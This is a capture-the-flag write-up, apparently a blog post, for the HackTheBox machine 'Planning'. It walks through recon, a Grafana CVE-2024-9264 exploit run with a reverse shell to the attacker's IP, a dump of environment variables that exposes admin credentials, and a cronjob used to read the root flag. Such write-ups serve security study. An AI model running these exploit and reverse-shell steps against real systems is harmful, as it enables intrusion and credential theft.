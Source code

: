 ```yaml
---
title: "HTB: Planning"
date: 2025-02-22
# weight: 1
# aliases: ["/first"]
tags: ["HTB", "Hackthebox", "Planning"]
author: "YUN Mony"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Planning is a linux-based machine that its difficulty is easy."
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: false # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "cover/planning.webp" # image path/url
    alt: "HTB : Planning" # alt text
    # caption: "Fluffy Machine from HackTheBox" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # set to false to show the cover image
    # linkFullImages: true
---
```


```python
# This is a comment
def greet(name):
    print(f"Hello, {name}!")
```

- At the beginning the machine provides us with some credentials admin/0D5oT70Fq13EvB5r with no other details.

## Initial recon

- First thing first is scan to see what services are running on the machine.

```bash
nmap -sVC -v 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 15:00 +07
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating Ping Scan at 15:00
Scanning 10.10.11.68 [4 ports]
Completed Ping Scan at 15:00, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:00
Completed Parallel DNS resolution of 1 host. at 15:00, 0.05s elapsed
Initiating SYN Stealth Scan at 15:00
Scanning 10.10.11.68 [1000 ports]
Discovered open port 22/tcp on 10.10.11.68
Discovered open port 80/tcp on 10.10.11.68
Discovered open port 8001/tcp on 10.10.11.68
Completed SYN Stealth Scan at 15:00, 2.25s elapsed (1000 total ports)
Initiating Service scan at 15:00
Scanning 3 services on 10.10.11.68
Completed Service scan at 15:00, 6.53s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.11.68.
Initiating NSE at 15:00
Completed NSE at 15:00, 6.73s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 1.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Nmap scan report for 10.10.11.68
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
8001/tcp open  http    SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
|_http-title: Directory listing for /
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.30 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.080KB)
```

- The ports 22 (SSH), 80(HTTP), 8001(HTTP Simple Server) are open.
- HTTP ports redirect to planning.htb
- Therefore, update /etc/hosts:
- `10.10.11.68 planning.htb`

## Enumerate as hard

- Started by looking around at the website, but nothing important, so tried port 8001 which is a directory listing.
- Saw something interesting, which contains a bunch of files. The interesting file was "CVE-2024-9264".
- Google it and found that it is related to "Grafana" a multi-platform open source analytics and interactive visualization web app.
- Brute force for sub-directory enumeration.

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/services-names.txt -c -t 100 -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/services-names.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 247ms]
:: Progress: [1419/1419] :: Job [1/1] :: 382 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

- "grafana" found. added the new entry to /etc/hosts, and visited the app see a login page. I google to look for CVE-2024-9264 since i have clue on port 8001.
- i use the PoC from this "https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit"

```bash
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 9001
```

- for the username and password i take from the provided credential in HTB and it works. So i setup the listener on my machine.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 38302
sh: 0: can't access tty; job control turned off
```

## Gained initial foothold

- we are root, yet no flags.
- Look for environment variables. found a credential.

```bash
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

- Used the ADMIN_PASSWORD & ADMIN_USER to log in and finally we get in the machine as enzo.
  `enzo@planning:~$ cat user.txt`
- Run linpeas.sh:
  ![Description](/imagesMD/planning1.png)
- Found file that is suspicious inside `/opt/crontab/crontab.db`.
  ![Description](/imagesMD/planning2.png)
- Found another password.
- After enumeration long time.
  ![Description](/imagesMD/planning3.png)
- The machine is host another app on port 8000. It is suspicious so I port forwarding.
  `ssh -L 8000:127.0.0.1:3000 enzo@planning.htb`
- Use SSH it is easy.
- Open browser, type localhost:8000 and it requires credential to access.
- Enter the username root and password the one we just found.
- We got access to Crontab UI.
  ![Description](/imagesMD/planning4.png)
- So I create new cronjob which is cat /root/root.txt > /tmp/flag.
- Execute it and go to /tmp, cat the flag! We are done.

<h3 style="text-align:center">Thanks for reading my writeup!</h3>
